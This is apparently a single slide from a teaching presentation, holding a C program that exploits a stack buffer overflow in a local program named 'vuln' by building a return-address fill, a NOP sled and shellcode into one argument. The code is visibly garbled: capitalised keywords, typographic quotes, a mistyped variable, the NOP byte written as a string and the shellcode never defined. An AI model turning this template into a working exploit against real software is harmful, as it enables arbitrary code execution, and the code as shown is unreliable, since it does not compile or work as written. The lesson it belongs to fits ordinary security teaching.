

38
#
Int main(int argc, char *argv[])
{
Int I,offset;
Long esp,ret,*addr_ptr;
Char *buffer,*ptr;
Offset=0;
Esp=sp();
Ret =est-offset;
Printf(“stack pointer(esp):0x%x\n”,esp);
Printf(“offset from esp:0x%x\n”,offset);
Printf(“desired return addr: 0x%x\n”,ret);
Buffer=malloc(600);
Ptr=buffer;
Addr_ptr=(long *)ptr;
	For (i=0;I<=600;i+=4)
	{buffer[i]=ret
	}

For (i=0;I<=200;i++)
{buffer[i]=“\x90”
}
Ptr=buffer+200;
For (i=0;i<=strlen(shellcode);i++)
{*(ptr++)=shellcode[i];
}
Buffer[600-1]=0;
Execl(“./vuln”,”vuln”,buffer,0);
Free(buffer);
Return 0;
}